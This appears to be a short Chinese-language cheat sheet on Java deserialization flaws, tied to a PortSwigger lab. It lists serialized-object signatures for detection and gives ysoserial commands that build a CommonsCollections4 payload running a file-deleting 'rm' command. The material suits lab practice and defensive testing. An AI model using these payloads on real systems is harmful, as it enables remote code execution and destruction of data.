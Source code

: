 # Java反序列化漏洞

## 靶机

[PortSwigger](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons)
[java deserialize webapp](https://github.com/hvqzao/java-deserialize-webapp)

## 工具

[Ysoserial](https://github.com/frohoff/ysoserial)

## 检测

1.白盒

在代码中查找实现 Serialized 接口的类和java.io.ObjectInputStream、readObject、readUnshare 函数的使用

2.黑盒

对于黑盒测试，查找表示 java 序列化对象（源自 ObjectInputStream）的特定签名或Magic Bytes：

+ 十六进制模式：AC ED 00 05
+ Base64 模式：rO0
+ Content-type 设置为 application/x-java-serialized-object 的 HTTP 响应标头
+ 指示先前压缩的十六进制模式：1F 8B 08 00
+ 表示先前压缩的 Base64 模式：H4sIA
+ 具有 .faces 扩展名和 faces.ViewState 参数的 Web 文件
```
javax.faces.ViewState=rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwdAAML2xvZ2luLnhodG1s
```


Apache Commons Collections
```bash
Java16及更高版本
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   CommonsCollections4 'rm /home/carlos/morale.txt' | base64

java15及以下：
java -jar ysoserial-all.jar CommonsCollections4 "rm /home/carlos/morole.txt" | base64
```
